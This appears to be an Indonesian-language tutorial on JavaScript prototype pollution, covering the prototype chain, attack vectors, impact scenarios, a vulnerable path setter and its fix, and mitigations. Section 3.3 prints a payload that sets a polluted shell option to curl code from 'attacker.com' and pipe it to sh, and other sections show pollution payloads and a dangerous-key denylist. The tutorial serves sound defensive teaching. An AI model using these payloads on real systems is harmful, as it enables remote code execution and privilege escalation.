

# Prototype Pollution

Dokumen ini merangkum materi pembelajaran mengenai kerentanan **Prototype Pollution** pada JavaScript, mencakup konsep fundamental, vektor serangan, studi kasus eksploitasi, hingga teknik mitigasi komprehensif.

---

## Daftar Isi
1. [Pengantar dan Konsep Dasar](#1-pengantar-dan-konsep-dasar)
   - [Rantai Prototipe (Prototype Chain)](#rantai-prototipe-prototype-chain)
   - [Mekanisme Warisan Properti](#mekanisme-warisan-properti)
2. [Apa itu Prototype Pollution?](#2-apa-itu-prototype-pollution)
   - [Definisi Kerentanan](#definisi-kerentanan)
   - [Pintu Masuk Utama (Attack Vectors)](#pintu-masuk-utama-attack-vectors)
3. [Dampak dan Skenario Eksploitasi](#3-dampak-dan-skenario-eksploitasi)
   - [3.1 Privilege Escalation (Eskalasi Hak Akses)](#31-privilege-escalation-eskalasi-hak-akses)
   - [3.2 Denial of Service (DoS via Property Corruption)](#32-denial-of-service-dos-via-property-corruption)
   - [3.3 Remote Code Execution (RCE via Gadget Chains)](#33-remote-code-execution-rce-via-gadget-chains)
   - [3.4 Client-Side Exploitation (DOM XSS & Open Redirect)](#34-client-side-exploitation-dom-xss--open-redirect)
4. [Studi Kasus Analisis Kode Keamanan](#4-studi-kasus-analisis-kode-keamanan)
   - [Analisis Fungsi `setNestedProperty`](#analisis-fungsi-setnestedproperty)
   - [Mekanisme Eksploitasi Jalur](#mekanisme-eksploitasi-jalur)
   - [Perbaikan dan Refactoring Kode](#perbaikan-dan-refactoring-kode)
5. [Strategi Mitigasi dan Best Practices](#5-strategi-mitigasi-dan-best-practices)
   - [Lapis Fungsi: Validasi Input (Denylist / Allowlist)](#lapis-fungsi-validasi-input-denylist--allowlist)
   - [Lapis Objek: Pure Objects (`Object.create(null)`)](#lapis-objek-pure-objects-objectcreatenull)
   - [Lapis Global: `Object.freeze(Object.prototype)`](#lapis-global-objectfreezeobjectprototype)
   - [Perbandingan `Object.freeze()` vs `Object.seal()`](#perbandingan-objectfreeze-vs-objectseal)
6. [Ringkasan dan Kesimpulan](#6-ringkasan-dan-kesimpulan)

---

## 1. Pengantar dan Konsep Dasar

### Rantai Prototipe (Prototype Chain)
JavaScript adalah bahasa berbasis prototipe (*prototype-based language*). Setiap objek di JavaScript memiliki tautan internal tersembunyi ke objek lain yang disebut **prototipe**-nya. Prototipe tingkat tertinggi dari sebagian besar objek adalah `Object.prototype`.



### Mekanisme Warisan Properti
Ketika program mencoba membaca properti dari sebuah objek:
1. JavaScript memeriksa apakah properti tersebut ada langsung pada objek itu sendiri.
2. Jika **tidak ada**, JavaScript akan menelusuri rantai prototipe ke atas (`__proto__`) menuju `Object.prototype`.
3. Jika ditemukan di prototipe, nilai tersebut yang dikembalikan.
4. Jika sampai di `null` tetap tidak ditemukan, JavaScript mengembalikan nilai `undefined`.

---

## 2. Apa itu Prototype Pollution?

### Definisi Kerentanan
**Prototype Pollution** adalah kerentanan keamanan di mana penyerang dapat menyuntikkan atau memodifikasi properti pada `Object.prototype`. Karena hampir semua objek di JavaScript mewarisi properti dari `Object.prototype`, perubahan ini akan berdampak secara global ke seluruh objek di dalam aplikasi.

### Pintu Masuk Utama (Attack Vectors)
Kerentanan ini umumnya muncul ketika aplikasi memproses objek secara dinamis atau rekursif tanpa validasi yang memadai terhadap kunci properti:
* **Penggabungan Objek Rekursif (*Recursive / Deep Merge*)**: Menggabungkan input JSON dari klien ke objek aplikasi.
* **Penetapan Properti Bersarang (*Path-based Property Setters*)**: Fungsi yang memecah string jalur (seperti `a.b.c`) untuk menyetel nilai pada objek bersarang.
* **Kloning Objek Dinamis**: Salinan objek dalam (*deep clone*) yang menelusuri properti bawaan.

Kunci berbahaya yang sering dimanfaatkan penyerang meliputi:
* `__proto__`
* `constructor.prototype`
* `prototype`

---

## 3. Dampak dan Skenario Eksploitasi

### 3.1 Privilege Escalation (Eskalasi Hak Akses)
Terjadi saat aplikasi mengasumsikan properti otorisasi tidak ada (bernilai `undefined` atau `false`) untuk pengguna reguler:

```javascript
// Pemeriksaan hak akses
if (user.isAdmin) {
  tampilkanDashboardAdmin();
}
```

Jika penyerang menyuntikkan `Object.prototype.isAdmin = true`, maka objek `user` biasa (yang tidak memiliki properti `isAdmin` sendiri) akan mewarisi nilai `true` dari prototipe global.

---

### 3.2 Denial of Service (DoS via Property Corruption)
Penyerang menimpa metode bawaan JavaScript dengan tipe data yang bukan fungsi.

#### Skenario: Merusak `toString`
1. Penyerang menyuntikkan payload: `Object.prototype.toString = "bukan_fungsi"`.
2. Saat aplikasi melakukan operasi penggabungan string:
   ```javascript
   const log = "Aktivitas user: " + dataUser;
   ```
3. JavaScript otomatis memanggil `dataUser.toString()`.
4. Karena nilainya berupa string dan bukan fungsi yang dapat dieksekusi, Node.js melemparkan galat fatal:
   ```text
   TypeError: dataUser.toString is not a function
   ```
5. Tanpa penanganan `try...catch`, seluruh proses Node.js langsung berhenti seketika (**Server Crash / Denial of Service**).

---

### 3.3 Remote Code Execution (RCE via Gadget Chains)
RCE terjadi ketika pencemaran prototipe bertemu dengan fungsi internal atau pustaka pihak ketiga (*Gadget*) yang membaca konfigurasi opsional tanpa nilai default yang aman.

#### Skenario: Modul `child_process.execSync` pada Node.js
```javascript
const { execSync } = require('child_process');

function jalankanBackup() {
  const options = {}; // Objek kosong
  execSync('echo "Backup selesai"', options);
}
```

Secara internal, `execSync` memeriksa apakah ada properti `options.shell`. Jika penyerang menyuntikkan:
```json
{
  "__proto__": {
    "shell": "/bin/bash -c 'curl http://attacker.com/malware | sh' #"
  }
}
```
Ketika `jalankanBackup()` dipanggil, Node.js membaca `options.shell` dari `Object.prototype` dan mengeksekusi *shell* berbahaya milik penyerang di server.

---

### 3.4 Client-Side Exploitation (DOM XSS & Open Redirect)
Kerentanan ini tidak terbatas pada backend (Node.js/Bun/Deno), tetapi juga berlaku di browser (*frontend*).

| Target Sink di Browser | Potensi Dampak | Contoh Kode Rentan |
| :--- | :--- | :--- |
| `window.location.href` | Open Redirect / Phishing / DOM XSS | `window.location.href = config.redirectUrl || '/home';` |
| `HTMLScriptElement.src` | Stored / DOM XSS (Pemuatan Skrip Asing) | `script.src = options.src;` |
| `Element.innerHTML` | Injeksi Skrip / HTML Injection | `container.innerHTML = options.template || '<p>Default</p>';` |
| `fetch` / `XMLHttpRequest` | Manipulasi Header / Hijacking Permintaan | `fetch('/api/data', options);` |

---

## 4. Studi Kasus Analisis Kode Keamanan

### Analisis Fungsi `setNestedProperty`
Perhatikan implementasi fungsi pembantu berikut:

```javascript
function setNestedProperty(obj, path, value) {
  const keys = path.split('.');
  let current = obj;

  for (let i = 0; i < keys.length - 1; i++) {
    const key = keys[i];
    if (!current[key]) {
      current[key] = {};
    }
    current = current[key];
  }

  current[keys[keys.length - 1]] = value;
  return obj;
}
```

### Mekanisme Eksploitasi Jalur
Jika penyerang mengirimkan:
* `path = "__proto__.role"`
* `value = "admin"`

Alur eksekusinya:
1. `keys` berisi `["__proto__", "role"]`.
2. Di dalam *loop*, `current = current["__proto__"]` mengarahkan pointer `current` langsung ke `Object.prototype`.
3. Setelah loop selesai, baris terakhir mengeksekusi `Object.prototype["role"] = "admin"`.
4. Seluruh objek di aplikasi kini tercemar properti `role: "admin"`.

### Perbaikan dan Refactoring Kode
Validasi dini (*Early Validation*) pada seluruh bagian jalur sebelum memproses objek:

```javascript
function setNestedPropertySafe(obj, path, value) {
  const keys = path.split('.');
  
  // 🛡️ Daftar kunci sensitif yang diblokir
  const DANGEROUS_KEYS = ['__proto__', 'constructor', 'prototype'];

  // Validasi seluruh elemen jalur
  if (keys.some(key => DANGEROUS_KEYS.includes(key))) {
    // Menolak pemrosesan secara aman
    return obj;
  }

  let current = obj;
  for (let i = 0; i < keys.length - 1; i++) {
    const key = keys[i];
    if (!current[key]) {
      current[key] = {};
    }
    current = current[key];
  }

  current[keys[keys.length - 1]] = value;
  return obj;
}
```

---

## 5. Strategi Mitigasi dan Best Practices

Penerapan pertahanan berlapis (*Defense in Depth*) adalah pendekatan terbaik dalam menangani Prototype Pollution:

### Lapis Fungsi: Validasi Input (Denylist / Allowlist)
Selalu bersihkan dan tolak kunci masukan yang mengandung `__proto__`, `constructor`, atau `prototype` pada fungsi deep merge/property setter.

### Lapis Objek: Pure Objects (`Object.create(null)`)
Gunakan objek tanpa prototipe untuk struktur konfigurasi atau pemetaan data sensitif:

```javascript
// Objek biasa: memiliki rantai Object.prototype
const regularObj = {};

// Objek murni: tidak memiliki rantai prototipe sama sekali
const safeObj = Object.create(null);
console.log(safeObj.__proto__); // undefined
```
Objek yang dibuat dengan `Object.create(null)` sepenuhnya kebal dari properti yang disuntikkan ke `Object.prototype`.

### Lapis Global: `Object.freeze(Object.prototype)`
Kunci prototipe global saat inisialisasi aplikasi agar tidak ada bagian program yang bisa memodifikasinya:

```javascript
// Di awal entry point aplikasi (misal: index.js / server.js)
Object.freeze(Object.prototype);
```

### Perbandingan `Object.freeze()` vs `Object.seal()`

| Fitur / Karakteristik | `Object.freeze()` 🧊 | `Object.seal()` 🔒 |
| :--- | :--- | :--- |
| **Menambah Properti Baru** | ❌ Dilarang | ❌ Dilarang |
| **Menghapus Properti** | ❌ Dilarang | ❌ Dilarang |
| **Mengubah Nilai Properti Eksisting** | ❌ Dilarang (Menolak DoS pada `toString`) | ✅ Diizinkan jika properti *writable* |
| **Tingkat Keamanan Terhadap Pollution** | **Maksimal (Direkomendasikan)** | Terbatas (Rentan terhadap DoS) |

---

## 6. Ringkasan dan Kesimpulan

1. **Akar Masalah**: Pewarisan prototipe global di JavaScript membuat mutasi pada `Object.prototype` memengaruhi seluruh siklus hidup aplikasi.
2. **Spektrum Ancaman**: Mulai dari manipulasi logika (*Privilege Escalation*), penghentian layanan (*DoS Crash*), hingga pengambilalihan penuh (*RCE* di backend dan *DOM XSS* di frontend).
3. **Pilar Pertahanan**:
   - Terapkan validasi ketat (*fail-fast*) pada operasi *nested merge* dan *path parsing*.
   - Gunakan `Object.create(null)` untuk objek data dan konfigurasi dinamis.
   - Aktifkan `Object.freeze(Object.prototype)` untuk perlindungan global aplikasi.
